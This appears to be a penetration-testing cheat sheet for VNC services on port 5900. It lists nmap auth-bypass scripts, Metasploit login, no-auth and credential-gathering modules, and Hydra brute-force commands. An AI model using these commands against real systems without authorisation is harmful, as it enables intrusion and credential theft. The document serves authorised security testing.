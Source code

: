 # 5900 (VNC)

## Checks

* [ ] Check for easy VNC passwords
* [ ] Check for exploits for VNC version
* [ ] Brute force VNC password

## Enumeration

### nmap

```bash
nmap -sV -Pn -p 5900 --script=vnc-info,vnc-title,realvnc-auth-bypass <IP> -oA 5900_nmap_VNC
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p 5900,5800 <IP>
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <PORT> <IP>
```

### Metasploit

#### Login Scan

```bash
use auxiliary/scanner/vnc/vnc_login
set rhosts <IP>
run
```

#### No-auth Scan

```bash
use auxiliary/scanner/vnc/vnc_none_auth
set rhosts <IP>
run
```

#### Post exploit module

```bash
background
use post/windows/gather/credentials/vnc
set session X
exploit

vncviewer 192.168.1.109
```

## Connection

```bash
vncviewer [-passwd passwd.txt] <IP>::5901
vncviewer <IP>:<PORT>
```

## Brute Force

```bash
hydra -s 5900 -P /usr/share/seclists/Passwords/darkweb2017-top10.txt -t 30 <IP> vnc
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

